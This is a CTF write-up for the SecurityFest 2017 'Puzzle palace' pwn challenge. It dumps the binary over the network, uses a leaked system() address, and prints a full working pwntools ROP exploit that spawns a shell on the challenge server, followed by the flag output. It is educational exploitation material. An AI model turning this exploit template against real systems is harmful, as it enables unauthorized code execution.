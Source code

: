 ```yaml
---
layout: post
title: "SecurityFest2017 - Puzzle palace"
date:   2017-06-01 20:00
categories: CTF
tags: [SecurityFest2017]
categories: [pwn]
author: jbz
---
```


_Adventure time! Find the magic bytes, kill the wizard, get all the flags!_

Pwn - 100 Points

This was a very fun challenge, too bad it was only worth 100 points :). The organizer provided the libc and a README containing this: `Yep you only get the libc, connect to the service and go for an adventure to get the rest.`

You can find the provided archive [here](https://github.com/jbzteam/CTF/raw/master/SecurityFest2017/PuzzlePalace/puzzle_palace.tar.gz). The remote server was `pwn.ctf.rocks` port `6666`.

Great! Let's the fun start.

First of all we have to get the binary from the remote server. When we connect to it we find ourselves in front of this menu:
```
The Puzzle Palace
===============
1) Go on an adventure to find the magic bytes!
2) Fight the evil wizard with the magic bytes!
3) Return home with shame

#>
```
If we type `1` we get:
```
You enter the Puzzle Palace!
A message glows brightly on the wall of this room [7F454C4602010100000000000000000003003E0001000000100A000000000000400000000000000038210000000000000000000040003800090040001B001A00]
Where to now adventurer?
1) Up
2) Down

#>
```
We see `454C46`, which is the hex of `ELF`. That's probably the start of the binary. To get more of it we just have to type `2` in the prompt and it will continue playing bytes until EOF. I used this script to dump the whole thing:
```python
from pwn import *
s = remote("pwn.ctf.rocks", 6666)
s.sendlineafter("#>", "1")
with open("bin", "w") as f:
    while True:
        data = s.recvuntil("#>")
        data = data.split("[")[1].split("]")[0]
        print data
        data = data.strip()
        data = [data[i:i+2] for i in xrange(0,  len(data), 2)]
        for x in data:
            f.write(chr(int(x, 16)))
        s.sendline("2")
```
Yes, there is no check for EOF but the script crashes when it reached EOF so it's good enough :). You can find the dumped binary [here](https://github.com/jbzteam/CTF/raw/master/SecurityFest2017/PuzzlePalace/bin).

Let's see what the dumped binary is:
```
$ file challenge
challenge: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=7c3b19746df3ef56476d19ce0f657e14c0eb19cb, stripped
$ checksec challenge 
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Nasty... well let's see how it works.

We know `1` of the initial menu, which is the leak of the binary, nothing much else there. `3` just quits the program. There's an hidden menu item if you press `Z`:
```c
if ( menu_entry == 'Z' )
  printf("Woah, nice! You found the hidden 'system' libc address:%p!\n", &system);
```
It leaks the address of `system`! Handy! Let's remember it for later.

Let's now focus on `2`.
```
Hope you got those magic bytes ready!
The wizard points at you and starts yelling 'lightning bolt!'
This would be a good time use those magic bytes: 
```
This is what we see when we press `2` in the main menu prompt. Let's see what it does after that:
```c
read_s2(256);
if ( strncmp("1337p0werOverWhelMing1337", s2, 25uLL) )
{
  puts("You utter the magic bytes but they are wrong and the evil wizard burns you to a crisp, GG!");
  exit(0);
}
printf("Nice! Pwn the wizard with some ROP and ROLL now!: ");
return read(0, &buf, 0x1337uLL);
```
So:
- `read_s2` just zeroes `s2` and writes 256 bytes read from stdin to it
- If `s2` is not `1337p0werOverWhelMing1337` the program exits
- It reads 0x1337 bytes of data (that is 4919 bytes) and saves it in `buf`, which is just a pointer on the stack. Ok, we can write stuff... a lot of it :)

If you remember, the binary has `NX` enabled, so no shellcode on the stack. It doesn't have a stack canary, which makes things easier in this case. So we just have to control RIP and create a ROP chain to execute our shell.

This is the final exploit:
```python
from pwn import *

s = remote("pwn.ctf.rocks", 6666)
#s = process("./bin")
libc = ELF("libc.so.6_eea5f41864be6e7b95da2f33f3dec47f")

s.sendlineafter("#>", "Z")
data = s.recvuntil("#>")

system_address = int(data.split(":")[1].split("!")[0], 16)
sh_address = system_address - 210208
libc_base = system_address - 283536
pop_rdi = libc_base + 0x21102

ropchain = ""
ropchain = "A" * 8 * 5
ropchain += p64(pop_rdi)
ropchain += p64(sh_address)
ropchain += p64(system_address)
log.info("system: {:x}".format(system_address))
log.info("libc: {:x}".format(libc_base))
log.info("sh: {:x}".format(sh_address))

s.sendline("2")
s.sendlineafter(":", "1337p0werOverWhelMing1337")
s.sendlineafter(":", ropchain)
s.interactive()
```
We create a simple ROP chain that `pop`s the address that points to `sh` in `rdi` and then we call `system`. Pretty straightforward.

- We first leak `system`'s address, and since the organizer provided libc we can easily calculate the address of `sh` and the location of a `pop rdi` gadget.
- We then prepare the payload that contains:
  - 40 bytes of padding to get to RIP (found via gdb)
  - the address of `pop rdi` that will overwrite RIP
  - the address of `sh` that will be put in `rdi`
  - the address of `system` that will run what's in `rdi`

Of course, we have to pass the string `1337p0werOverWhelMing1337` first. And we get our shell:
```bash
$ python exploit.py 
[+] Opening connection to pwn.ctf.rocks on port 6666: Done
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] system: 7febe305e390
[*] libc: 7febe3019000
[*] sh: 7febe302ae70
[*] Switching to interactive mode
$ id
uid=999(ctf) gid=999(ctf) groups=999(ctf)
$ cat flag
SCTF{1_4lwa4y5_h4t3d_w1zard5}
```

Happy hacking!



